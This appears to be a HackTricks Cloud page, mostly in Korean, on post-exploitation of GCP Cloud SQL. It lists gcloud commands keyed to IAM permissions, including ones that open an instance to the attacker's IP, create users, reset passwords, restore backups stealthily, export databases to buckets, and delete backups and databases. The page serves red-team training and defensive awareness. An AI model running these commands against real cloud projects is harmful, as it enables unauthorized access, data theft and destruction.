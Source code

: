 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Cloud SQL에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

데이터베이스에 연결하려면 **데이터베이스 포트에 대한 접근 권한**과 **사용자 이름** 및 **비밀번호**를 알아야 하며, IAM 요구 사항은 없습니다. 따라서 데이터베이스에 공용 IP 주소가 있다고 가정할 때 접근하는 쉬운 방법은 허용된 네트워크를 업데이트하고 **자신의 IP 주소가 접근할 수 있도록 허용하는 것입니다**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
**`--no-backup`**를 사용하여 데이터베이스의 **백업을 중단**하는 것도 가능합니다.

이것이 요구 사항이기 때문에 **`cloudsql.instances.connect`** 및 **`cloudsql.instances.login`**의 권한이 무엇인지 확실하지 않습니다. 아는 분은 PR을 보내주세요!

### `cloudsql.users.list`

데이터베이스의 **모든 사용자 목록**을 가져옵니다:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

이 권한은 **데이터베이스 내에 새로운 사용자를 생성**할 수 있게 해줍니다:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

이 권한은 **데이터베이스 내의 사용자 업데이트**를 허용합니다. 예를 들어, 비밀번호를 변경할 수 있습니다:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

백업에는 **오래된 민감한 정보**가 포함될 수 있으므로 확인하는 것이 흥미롭습니다.\
**데이터베이스 내에서 백업 복원**:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
더 은밀하게 수행하기 위해 현재 실행 중인 데이터베이스 대신 새 SQL 인스턴스를 생성하고 그곳에서 데이터를 복구하는 것이 권장됩니다.

### `cloudsql.backupRuns.delete`

이 권한은 백업을 삭제할 수 있습니다:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**데이터베이스를 내보내기** 위해 Cloud Storage 버킷에 저장하여 거기서 접근할 수 있습니다:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Cloud Storage 버킷에서 데이터베이스 가져오기** (덮어쓰기):
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

db 인스턴스에서 데이터베이스를 삭제합니다:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
